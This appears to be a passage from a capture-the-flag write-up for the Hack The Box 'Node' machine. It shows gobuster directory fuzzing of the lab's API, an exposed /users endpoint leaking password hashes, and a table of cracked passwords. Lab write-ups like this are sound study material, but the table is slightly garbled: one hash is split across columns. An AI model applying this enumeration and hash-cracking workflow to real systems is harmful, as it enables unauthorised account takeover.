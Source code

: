 The box is running a `node.js` application. 
We check the login request on the login page and find out that it is doing a post request on `/api/session/authenticate`.

We could run a `gobuster` on the api directory to fuzz all the available api features.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.9]─[~/htb/node]
└──╼ # gobuster dir -u http://10.10.10.58:3000/api/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --exclude-length 3861
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.58:3000/api/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          3861
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/03 21:06:47 Starting gobuster in directory enumeration mode
===============================================================
/users                (Status: 200) [Size: 611]
/session              (Status: 200) [Size: 23]
```

On, Fuzzing we find out an api called `users` which we might want to take a look at.
```json
[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},
{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},
{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},
{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
```

We have 4 usernames and 4 hashes out of which `myP14ceAdm1nAcc0uNT` is an admin account.

We crack those hashes and find out that we could crack only 3 hashes out of 4 hashes.
![[Pasted image 20210703212654.png]]

|Username|Hash|Password|Admin|
|--|--|--|--|
|myP14ceAdm1nAcc0uNT|dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0|manchester|x|af
|tom|f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240|spongebob|x|
|mark|de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73|snowflake|x|
|rastating|5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0|CANNOT CRACK|x|
